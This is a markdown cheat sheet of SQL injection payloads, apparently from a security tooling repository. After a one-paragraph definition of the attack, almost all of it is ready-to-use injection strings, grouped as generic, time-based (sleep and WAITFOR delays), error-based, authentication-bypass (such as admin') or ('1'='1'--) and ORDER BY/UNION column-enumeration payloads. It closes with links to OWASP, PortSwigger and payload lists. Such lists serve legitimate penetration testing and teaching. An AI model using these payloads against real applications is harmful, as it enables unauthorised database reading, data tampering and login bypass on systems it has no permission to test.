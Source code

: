 # SQL Injection
> A SQL injection attack consists of insertion or “injection” of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to affect the execution of predefined SQL commands.

> 👍 **Tip:** for more payloads [github.com/payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)

## Generic SQL Injection Payloads

```sql
' or ' 
```
```sql
-- or #  
```
```sql
' OR '1 
```
```sql
' OR 1 -- - 
```
```sql
OR "" = " 
```
```sql
" OR 1 = 1 -- -" 
```
```sql
' OR '' = ' 
```
```sql
'=' 
```
```sql
'LIKE' 
```
```sql
'=0--+ 
```
```sql
OR 1=1 
```
```sql
' OR 'x'='x 
```
```sql
' AND id IS NULL; -- 
```
```sql
'''''''''''''UNION SELECT '2
```

## Time-Based
```sql
,(select * from (select(sleep(10)))a)
```
```sql
%2c(select%20*%20from%20(select(sleep(10)))a)
```
```sql
';WAITFOR DELAY '0:0:30'--
```

## Generic Error Based Payloads

```sql
OR 1=1
```
```sql
OR 1=1#
```
```sql
OR x=y#
```
```sql
OR 1=1-- 
```
```sql
OR x=x-- 
```
```sql
OR 3409=3409 AND ('pytW' LIKE 'pytW
```
```sql
HAVING 1=1
```
```sql
HAVING 1=1#
```
```sql
HAVING 1=0-- 
```
```sql
AND 1=1-- 
```
```sql
AND 1=1 AND '%'='
```
```sql
WHERE 1=1 AND 1=0--
```
```sql
%' AND 8310=8310 AND '%'='
```

## Authentication Based Payloads

```sql
' or 1=1 --
```
```sql
' or ''-'
```
```sql
' or '' '
```
```sql
' or ''&'
```
```sql
' or ''^'
```
```sql
' or ''*'
```
```sql
or true--
```
```sql
" or true--
```
```sql
' or true--
```
```sql
") or true--
```
```sql
') or true--
```
```sql
admin') or ('1'='1'--
```
```sql
admin') or ('1'='1'#
```
```sql
admin') or ('1'='1'/
```

## Order by and UNION Based Payloads
```sql
1' ORDER BY 1--+
```
```sql
1' ORDER BY 2--+
```
```sql
1' ORDER BY 3--+
```
```sql
1' ORDER BY 1,2--+
```
```sql
1' ORDER BY 1,2,3--+
```
```sql
1' GROUP BY 1,2,--+
```
```sql
1' GROUP BY 1,2,3--+
```
```sql
' GROUP BY columnnames having 1=1 --
```
```sql
-1' UNION SELECT 1,2,3--+
```
```sql
' UNION SELECT sum(columnname ) from tablename --
```
```sql
-1 UNION SELECT 1 INTO @,@
```
```sql
-1 UNION SELECT 1 INTO @,@,@
```
```sql
1 AND (SELECT * FROM Users) = 1 
```
```sql
' AND MID(VERSION(),1,1) = '5';
```



## 📚 References

* [owasp.org/www-community/attacks/SQL_Injection](https://owasp.org/www-community/attacks/SQL_Injection)
* [www.owasp.org/index.php/SQL_Injection_Bypassing_WAF](https://www.owasp.org/index.php/SQL_Injection_Bypassing_WAF)
* [portswigger.net/web-security/sql-injection](https://portswigger.net/web-security/sql-injection)
* [www.acunetix.com/websitesecurity/sql-injection/](https://www.acunetix.com/websitesecurity/sql-injection/)
* [github.com/LasCC/Hack-Tools](https://github.com/LasCC/Hack-Tools)
* [github.com/payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)